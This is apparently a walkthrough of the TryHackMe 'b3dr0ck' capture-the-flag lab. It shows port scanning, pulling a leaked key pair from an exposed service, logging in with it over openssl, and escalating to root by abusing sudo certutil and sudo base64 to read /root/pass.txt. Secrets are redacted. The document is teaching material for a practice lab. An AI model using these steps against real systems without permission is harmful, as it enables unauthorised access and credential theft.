 ```yaml
---
title: "b3dr0ck"
date: 2025-02-13
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF b3dr0ck
categories: [Tryhackme, Easy]
tags: [linux, certificates, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>b3dr0ck</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Server trouble in Bedrock.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="###">###</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge b3dr0ck.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.58.21                                 
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 12:36 EST
  Nmap scan report for 10.10.58.21
  Host is up (0.047s latency).
  Not shown: 65530 closed tcp ports (conn-refused)
  PORT      STATE SERVICE
  22/tcp    open  ssh
  80/tcp    open  http
  4040/tcp  open  yo-main
  9009/tcp  open  pichat
  54321/tcp open  unknown

  Nmap done: 1 IP address (1 host up) scanned in 25.49 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash

```
From here I proceeded the analysis port by port.

## Port 80 Analysis

Accessing port 80 with a web browser redirects me to port 4040 and showed me the following message:

```text
Welcome to ABC!

Abbadabba Broadcasting Compandy

We're in the process of building a website! Can you believe this technology exists in bedrock?!?

Barney is helping to setup the server, and he said this info was important...

Hey, it's Barney. I only figured out nginx so far, what the h3ll is a database?!?
Bamm Bamm tried to setup a sql database, but I don't see it running.
Looks like it started something else, but I'm not sure how to turn it off...

He said it was from the toilet and OVER 9000!

Need to try and secure connections with certificates...
```

Because of the `OVER 9000` I continued with port `9009`.

## Port 9009 Analysis

The web server timed out, so I tried connecting using `telnet`. The following output has been shortened for better readability:

```bash
$ telnet 10.10.58.21 9009              
Trying 10.10.58.21...
Connected to 10.10.58.21.
Escape character is '^]'.


 __          __  _                            _                   ____   _____ 
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |     
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |     
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____ 
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|
                                                                               
                                                                               


What are you looking for? flag
Sorry, unrecognized request: 'flag'

You use this service to recover your client certificate and private key
What are you looking for? private key
Sounds like you forgot your private key. Let's find it for you...

-----BEGIN RSA PRIVATE KEY-----
[reduced]
-----END RSA PRIVATE KEY-----

What are you looking for? public
Sounds like you forgot your certificate. Let's find it for you...

-----BEGIN CERTIFICATE-----
[reduced]
-----END CERTIFICATE-----
```

I stored the certificates on my machine and continued with the last port.

## Port 54321 Analysis

The webserver gave me the following error message:
```text
Gave me: `Error: 'undefined' is not authorized for access.` Probably we need the cert?
```

That's interesting because we already received a certificate pair. I tried to connect to the server using `openssl` with success:
```bash
$ openssl s_client -connect 10.10.58.21:54321 -cert pubkey -key privkey
```
The output is quite long, so I reduced it for readability:
```bash
 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)

Welcome: 'Barney Rubble' is authorized.
b3dr0ck> flag
Unrecognized command: 'flag'

This service is for login and password hints
b3dr0ck> password hints 
Password hint: [removed] (user = 'Barney Rubble')
b3dr0ck> login
Login is disabled. Please use SSH instead.
```

After several attempts to crack the string, I decided to use it as a password and successfully connected via `ssh`. 

## Privilege Escalation Fred

Because I have a valid username and password pair I was able to execute `sudo -l`:

```bash
$ sudo -l
[sudo] password for barney: 
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
```

There is likely a certificate stored for Fred:

```bash
barney@b3dr0ck:~$ cat /etc/passwd | grep fred
	fred:x:1000:1000:Fred Flintstone:/home/fred:/bin/bash
barney@b3dr0ck:~$ sudo certutil fred "Fred Flintstone"
  Generating credentials for user: fred (Fred Flintstone)
  Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
  Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
[reduced]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[reduced]
-----END CERTIFICATE-----

```

Let's apply the same approach used for Barney's certificate:

```bash
$ openssl s_client -connect 10.10.58.21:54321 -cert pubkey2 -key privkey2
 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)

Welcome: 'Fred Flintstone' is authorized.
b3dr0ck> hint
Password hint: [removed] (user = 'Fred Flintstone')
b3dr0ck> login
Login is disabled. Please use SSH instead.
b3dr0ck>

$ ssh fred@10.10.58.21            
fred@10.10.58.21's password: 
fred@b3dr0ck:~$
fred@b3dr0ck:~$ cat fred.txt 
THM{[removed]}
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
red@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```

I then proceeded to execute the `base64` command with sudo:

```base64
fred@b3dr0ck:~$ sudo /usr/bin/base64 /root/pass.txt | base64 -d
[removed]
```

At this point, I used `CyberChef` and `Crackstation` to analyze the string:

screen 1

```base64
fred@b3dr0ck:~$ su root
	Password: 
root@b3dr0ck:/home/fred# cd /root
root@b3dr0ck:~# ls
	pass.txt  root.txt  snap
root@b3dr0ck:~# cat root.txt
THM{[removed]}
```

solved! :)
